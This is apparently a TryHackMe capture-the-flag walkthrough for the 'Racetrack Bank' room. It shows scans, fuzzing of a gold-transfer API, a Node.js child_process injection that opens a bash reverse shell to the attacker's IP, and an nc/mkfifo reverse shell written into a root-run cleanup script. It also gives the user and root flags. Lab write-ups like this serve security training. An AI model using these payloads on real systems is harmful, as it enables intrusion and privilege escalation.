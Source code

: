 # [Racetrack Bank](https://tryhackme.com/room/racetrackbank)
> Author: Nayanjyoti Kumar

## It's time for another heist.


* Network Enumeration
* Web Enumeration
* Code Injection
* Abusing SUID/GUID

## Task 1 Flags

Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

```
nayan@kali:~/CTFs/tryhackme/Racetrack Bank$ sudo nmap -A -sS -sC -sV -O 10.10.44.102
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 15:58 CEST
Nmap scan report for 10.10.44.102
Host is up (0.034s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Racetrack Bank
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.95 ms 10.8.0.1
2   34.09 ms 10.10.44.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.17 seconds
```

```
nayan@kali:~/CTFs/tryhackme/Racetrack Bank$ gobuster dir -u http://10.10.44.102/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.44.102/
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/10/20 16:00:27 Starting gobuster
===============================================================
/create.html (Status: 200)
/home.html (Status: 302)
/Home.html (Status: 302)
/images (Status: 301)
/Images (Status: 301)
/index.html (Status: 200)
/Index.html (Status: 200)
/index.html (Status: 200)
/login.html (Status: 200)
/Login.html (Status: 200)
/purchase.html (Status: 302)
===============================================================
2020/10/20 16:01:01 Finished
===============================================================
```

[http://10.10.44.102/home.html](http://10.10.44.102/home.html)

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3A1_QrOdmwhf3pJserjzFqbCWZAqIYR8fv.vb7X%2BTckrABMYXkszRkdjHm59MnUjLGo9jPnfbBaCc0" -d "user=test2&amount=FUZZ"

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AdztpeWIe47gRM3QkNL6s1zBf_NqHY9eb.DErxWEyXCczE%2BYifpQ2t%2F7rMBpsh1AHZpTk73Z9yj6M" -d "user=test&amount=FUZZ"

[http://10.10.44.102/premiumfeatures.html?ans=2](http://10.10.44.102/premiumfeatures.html?ans=2)

`calculation=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.106.222/9001+0>%261"')`

```
brian@racetrack:~/website$ cd ~
cd ~
brian@racetrack:~$ ls -l
ls -l
total 16
drwxrwxr-x 3 root  root  4096 Apr 23 05:07 admin
drwxr-xr-x 2 brian brian 4096 Apr 23 04:55 cleanup
-rw-rw-r-- 1 brian brian   39 Apr 23 05:45 user.txt
drwxrwxr-x 6 brian brian 4096 Apr 22 09:41 website
brian@racetrack:~$ cat user.txt
cat user.txt
THM{178c31090a7e0f69560730ad21d90e70}
```
> User flag is found.


```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' > cleanup/cleanupscript.sh
```

```
brian@racetrack:~$ find / -perm -4000 -user root -type f 2> /dev/null
find / -perm -4000 -user root -type f 2> /dev/null
/home/brian/admin/manageaccounts
```

```
brian@racetrack:~$ cat root_flag.txt
cat root_flag.txt
THM{55a9d6099933f6c456ccb2711b8766e3}
```
> Root flag is found.

